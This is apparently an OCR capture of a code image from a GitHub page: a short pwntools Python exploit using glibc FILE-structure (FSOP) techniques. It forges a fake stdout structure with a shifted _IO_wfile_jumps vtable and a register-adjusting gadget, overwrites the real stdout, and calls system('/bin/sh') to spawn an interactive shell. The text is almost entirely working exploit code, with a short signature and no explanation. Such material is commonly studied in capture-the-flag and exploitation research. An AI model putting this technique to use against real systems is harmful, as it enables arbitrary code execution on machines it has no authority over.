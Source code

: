 ```python
# some constants
stdout_lock = libc.address + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830  # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# write our fake stdout over the real one
write( bytes(fake))

# enjoy shell
p.interactive()
```

*nobodyisnobody, still hacking things...*